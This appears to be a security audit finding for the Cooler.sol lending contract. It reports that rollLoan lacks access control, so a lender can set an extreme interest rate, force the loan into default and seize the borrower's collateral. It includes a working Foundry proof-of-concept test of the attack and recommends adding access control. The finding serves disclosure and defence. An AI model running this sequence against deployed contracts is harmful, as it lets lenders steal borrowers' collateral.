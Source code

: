 Immense Syrup Shetland

high

# Cooler.sol#provideNewTermsForRoll() - A malicious lender can force a loan to default if he sets a very high interest rate for the loan, then roll it, after that the borrower can't repay it.
## Summary
A malicious lender can force a loan to default if he sets a very high interest rate with `provideNewTermsForRoll` for the loan, then call `rollLoan`.

## Vulnerability Detail
The `lender` of a loan can force a default of a loan if he wanted to, through `providenewTermsForRoll` then `rollLoan`.

The issue occurs because `rollLoan` has no access control, meaning anyone can call it.

Let's imagine the following:
1. Bob (owner/borrower) calls `requestLoan` for some tokens.
2. Alice (malicious) approves his loan and calls `clearRequest`.
3. Alice calls `provideNewTermsForRoll` with an insanely high `interest_` (`1000e18` for example).
4. Alice calls `rollLoan` since there is no access control on the function. `rollLoan` will update `loan.amount` with the `newDebt`, which uses `interestFor` to calculate the `newDebt`. `interestRate` will use the `loan.request.interest` which Alice just set to `1000e18` with `provideNewTermsForRoll`.
5. Bob then attempts to repay his full loan, but he won't be able to since `loan.amount` is a very big number and `decollateralized` will always return `0` as it is calculated as such: `(loan.collateral * repaid_) / loan.amount` (this part will be important in the last step of the example). 
6. Even though `decollateralized` is 0, the `debt` tokens will be sent to Alice, meaning she will get her `debt` tokens back.
7. Lastly, since Bob can't pay back the loan, the loan will default. Alice then calls `claimDefaulted` and retrieves Bob's collateral.

Alice can also front-run Bob's `repayLoan` to basically to the same thing.

P.S:
This isn't a problem in `Clearinghouse` as the new terms are constants and this can't occur there, but for any `Cooler` that doesn't work directly with the `Clearinghouse` this is an issue.

## POC
Paste the following in `src/tests/Cooler.t.sol` and run `forge test --mt testLenderChangeLoanParametersThenRollTheLoan -vvvv`.

```javascript
function testLenderChangeLoanParametersThenRollTheLoan() public {
        // Setup
        address alice = address(10);
        address bob = address(20);
        deal(address(debt), alice, 10 ether);
        deal(address(collateral), alice, 10 ether);
        deal(address(collateral), bob, 10 ether);
        // Alice's tokens before the attack
        uint256 aliceStartDebtTokens = debt.balanceOf(alice);
        uint256 aliceStartCollateralTokens = collateral.balanceOf(alice);
        uint256 bobStartCollateralTokens = collateral.balanceOf(bob);

        vm.prank(bob);
        Cooler bobCooler = Cooler(coolerFactory.generateCooler(collateral, debt));

        // More setuo
        vm.startPrank(bob);
        debt.approve(address(bobCooler), type(uint256).max);
        collateral.approve(address(bobCooler), type(uint256).max);
        vm.stopPrank();

        vm.startPrank(alice);
        debt.approve(address(bobCooler), type(uint256).max);
        collateral.approve(address(bobCooler), type(uint256).max);
        vm.stopPrank();

        // Bob creates a loan request
        vm.startPrank(bob);
        bobCooler.requestLoan(1 ether, INTEREST_RATE, 1e18, DURATION);
        vm.stopPrank();

        // Alice clears the request and pays 1 debt token
        vm.startPrank(alice);
        debt.approve(address(bobCooler), 10 ether);
        uint256 loanId = bobCooler.clearRequest(0, true, false);

        // Then Alice calls provideNewTermsForRoll then immediatly rolls the loan
        bobCooler.provideNewTermsForRoll(loanId, 1000e18, 1e18, DURATION);
        bobCooler.rollLoan(loanId);
        vm.stopPrank();

        // Bob attempts to pay back the full loan
        vm.startPrank(bob);
        bobCooler.repayLoan(loanId, 1 ether);

        // Alice now has the same amount of debt tokens that she started with
        assertEq(debt.balanceOf(alice), aliceStartDebtTokens);

        // Time passes and since Bob can't pay his loan, it defaults
        vm.warp(block.timestamp + 61 days);

        // Alice claims the defaulted loan
        bobCooler.claimDefaulted(loanId);
        assertGt(collateral.balanceOf(alice), aliceStartCollateralTokens);

        // Bob has no debt tokens and he now has less collateral tokens than he started off with
        assertEq(debt.balanceOf(bob), 0 ether);
        assertLt(collateral.balanceOf(bob), bobStartCollateralTokens);
    }
```

## Impact
Lender can force a default on a loan, get his `debt` tokens back and also retrieve the `borrower's` collateral tokens. Effectively, not losing anything from the trades.

## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/6d34cd12a2a15d2c92307d44782d6eae1474ab25/Cooler/src/Cooler.sol#L282-L300
https://github.com/sherlock-audit/2023-08-cooler/blob/6d34cd12a2a15d2c92307d44782d6eae1474ab25/Cooler/src/Cooler.sol#L192-L217

## Tool used
Manual Review
Foundry

## Recommendation
Add access control to `rollLoan` so only the `owner and Clearinghouse` can call it.